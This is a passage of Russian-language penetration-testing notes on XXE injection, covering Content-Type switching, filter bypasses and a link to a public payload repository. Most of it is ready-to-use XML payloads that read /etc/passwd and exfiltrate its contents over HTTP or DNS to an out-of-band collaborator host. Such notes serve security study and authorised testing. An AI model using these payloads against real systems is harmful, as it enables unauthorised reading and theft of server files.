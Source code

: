 #### 4.4. Использование других форматов данных

- Подмена Content-Type
```
POST /api HTTP/1.1
Content-Type: application/json

{"data": "<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><foo>&xxe;</foo>"}
```


#### 4.5.  Эксфильтрация данных

**Через url**
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % exfiltrate "<!ENTITY &#x25; send SYSTEM 'http://xxx.oastify.com/?data=%file;'>">
  %exfiltrate;
]>
```
- Данные из /etc/passwd будут переданы в параметре data запроса к Collaborator.

**Через DNS**
Если HTTP-запросы блокируются, можно использовать DNS:
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % exfiltrate "<!ENTITY &#x25; send SYSTEM 'http://%file;.xxx.oastify.com/'>">
  %exfiltrate;
]>

```
Содержимое файла будет включено в поддомен (например, `root:x:0:0:.xxx.oastify.com`), что Collaborator зафиксирует через DNS.


#### 4.6. Обход проверки символов, разрешенные для использования в URL

![[Pasted image 20250201123233.png]]

- Кодировка base64
- Протокол ftp
#### [репозиторий на гите с payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)